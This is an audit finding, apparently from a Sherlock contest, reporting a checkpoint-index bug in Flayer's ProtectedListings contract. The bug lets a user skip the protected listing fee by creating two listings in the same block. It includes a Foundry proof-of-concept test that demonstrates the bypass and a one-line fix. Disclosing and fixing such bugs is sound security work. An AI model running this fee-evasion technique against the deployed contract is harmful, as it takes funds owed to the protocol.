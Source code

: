 Ripe Zinc Duck

High

# User can avoid protected listing fee.

## Summary
`ProtectedListings._createCheckpoint()` function returns incorrect index when the timestamp of last checkpoint is equal to `block.timestamp`. Exploiting this vulnerability, user can avoid protected listing fee.

## Vulnerability Detail
`ProtectedListings.createListings()` function is following.
```solidity
    function createListings(CreateListing[] calldata _createListings) public nonReentrant lockerNotPaused {
        // Loop variables
        uint checkpointIndex;
        bytes32 checkpointKey;
        uint tokensIdsLength;
        uint tokensReceived;

        // Loop over the unique listing structures
        for (uint i; i < _createListings.length; ++i) {
            // Store our listing for cheaper access
            CreateListing calldata listing = _createListings[i];

            // Ensure our listing will be valid
            _validateCreateListing(listing);

            // Update our checkpoint for the collection if it has not been done yet for
            // the listing collection.
            checkpointKey = keccak256(abi.encodePacked('checkpointIndex', listing.collection));
            assembly { checkpointIndex := tload(checkpointKey) }
            if (checkpointIndex == 0) {
137:            checkpointIndex = _createCheckpoint(listing.collection);
                assembly { tstore(checkpointKey, checkpointIndex) }
            }

            // Map our listings
            tokensIdsLength = listing.tokenIds.length;
            tokensReceived = _mapListings(listing, tokensIdsLength, checkpointIndex) * 10 ** locker.collectionToken(listing.collection).denomination();

            // Register our listing type
            unchecked {
                listingCount[listing.collection] += tokensIdsLength;
            }

            // Deposit the tokens into the locker and distribute ERC20 to user
            _depositNftsAndReceiveTokens(listing, tokensReceived);

            // Event fire
            emit ListingsCreated(listing.collection, listing.tokenIds, listing.listing, tokensReceived, msg.sender);
        }
    }
```
The above function get the last checkpoint index of the collection on `L137` and save it to calculate the compound factor in `unlockPrice()` function.
`ProtectedListings.createListings()` function is following.
```solidity
    function _createCheckpoint(address _collection) internal returns (uint index_) {
        // Determine the index that will be created
        index_ = collectionCheckpoints[_collection].length;

        // Register the checkpoint that has been created
        emit CheckpointCreated(_collection, index_);

        // If this is our first checkpoint, then our logic will be different as we won't have
        // a previous checkpoint to compare against and we don't want to underflow the index.
        if (index_ == 0) {
            // Calculate the current interest rate based on utilization
            (, uint _utilizationRate) = utilizationRate(_collection);

            // We don't have a previous checkpoint to calculate against, so we initiate our
            // first checkpoint with base data.
            collectionCheckpoints[_collection].push(
                Checkpoint({
                    compoundedFactor: locker.taxCalculator().calculateCompoundedFactor({
                        _previousCompoundedFactor: 1e18,
                        _utilizationRate: _utilizationRate,
                        _timePeriod: 0
                    }),
                    timestamp: block.timestamp
                })
            );

            return index_;
        }

        // Get our new (current) checkpoint
        Checkpoint memory checkpoint = _currentCheckpoint(_collection);

        // If no time has passed in our new checkpoint, then we just need to update the
        // utilization rate of the existing checkpoint.
        if (checkpoint.timestamp == collectionCheckpoints[_collection][index_ - 1].timestamp) {
            collectionCheckpoints[_collection][index_ - 1].compoundedFactor = checkpoint.compoundedFactor;
566:        return index_; // @audit index is out-of-bound of collectionCheckpoints[_collection]
        }

        // Store the new (current) checkpoint
        collectionCheckpoints[_collection].push(checkpoint);
    }
```
As can be seen in `L566`, the above function returns `last index of collectionCheckpoints[_collection]` + `1` when the timestamp of last checkpoint is equal to `block.timestamp`. Exploiting this vulnerability, user can avoid protected listing fee.

PoC:
Add the following test code into `ProtectedListings.t.sol`.
```solidity
    function test_CreateListingsError() public {
        erc721a.mint(address(this), 0);
        erc721a.mint(address(this), 1);
        
        erc721a.setApprovalForAll(address(protectedListings), true);
        erc721b.setApprovalForAll(address(protectedListings), true);

        // create listing for tokenId = 0
        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(0),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(address(this)),
                tokenTaken: 0.4 ether,
                checkpoint: 0
            })
        });
        protectedListings.createListings(_listings);

        // create listing for tokenId = 1 within the same block
        _listings[0].tokenIds = _tokenIdToArray(1);
        protectedListings.createListings(_listings);

        vm.warp(block.timestamp + 7 days);

        // unlock price for tokenId = 0 is increased.
        assertEq(protectedListings.unlockPrice(address(erc721a), 0), 402485479451875840);

        // ulockPrice() for tokenId = 1 will revert because of out-of-bound access.
        vm.expectRevert();
        protectedListings.unlockPrice(address(erc721a), 1);

        vm.startPrank(address(listings));
        protectedListings.createCheckpoint(address(erc721a));
        vm.stopPrank();
        
        // unlock price for tokenId = 1 is not increased at all.
        assertEq(protectedListings.unlockPrice(address(erc721a), 1), 0.4 ether);
    }
```
In the above test code, user avoid fees for tokenId = 1 by creating the listing for tokenId = 1 within the same block for tokenId = 0.

## Impact
User can avoid protected listing fee. It meanas loss of funds for the protocol.

## Code Snippet
https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L566

## Tool used

Manual Review

## Recommendation
Modify `ProtectedListings._createCheckpoint()` function as below.
```solidity
    function _createCheckpoint(address _collection) internal returns (uint index_) {
        // Determine the index that will be created
        index_ = collectionCheckpoints[_collection].length;

        // Register the checkpoint that has been created
        emit CheckpointCreated(_collection, index_);

        // If this is our first checkpoint, then our logic will be different as we won't have
        // a previous checkpoint to compare against and we don't want to underflow the index.
        if (index_ == 0) {
            // Calculate the current interest rate based on utilization
            (, uint _utilizationRate) = utilizationRate(_collection);

            // We don't have a previous checkpoint to calculate against, so we initiate our
            // first checkpoint with base data.
            collectionCheckpoints[_collection].push(
                Checkpoint({
                    compoundedFactor: locker.taxCalculator().calculateCompoundedFactor({
                        _previousCompoundedFactor: 1e18,
                        _utilizationRate: _utilizationRate,
                        _timePeriod: 0
                    }),
                    timestamp: block.timestamp
                })
            );

            return index_;
        }

        // Get our new (current) checkpoint
        Checkpoint memory checkpoint = _currentCheckpoint(_collection);

        // If no time has passed in our new checkpoint, then we just need to update the
        // utilization rate of the existing checkpoint.
        if (checkpoint.timestamp == collectionCheckpoints[_collection][index_ - 1].timestamp) {
            collectionCheckpoints[_collection][index_ - 1].compoundedFactor = checkpoint.compoundedFactor;
--          return index_;
++          return index_ - 1;
        }

        // Store the new (current) checkpoint
        collectionCheckpoints[_collection].push(checkpoint);
    }
```